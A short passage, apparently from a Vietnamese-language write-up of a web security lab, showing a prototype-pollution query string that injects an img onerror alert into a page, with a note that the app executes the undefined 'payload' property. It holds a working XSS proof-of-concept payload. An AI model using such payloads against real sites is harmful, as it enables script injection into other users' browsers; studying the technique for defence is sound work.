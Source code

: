 ->![img](source/img8.png)<-

> Payload:

```
?__proto__[payload]=<img%20src%20onerror=alert(%27hacker%27)>&message=payload
```

- Như vậy mặc dù không tồn tại thuộc tính payload trong messages nhưng ứng dụng vẫn gọi lên được và thực thi nó.

->![img](source/img9.png)<-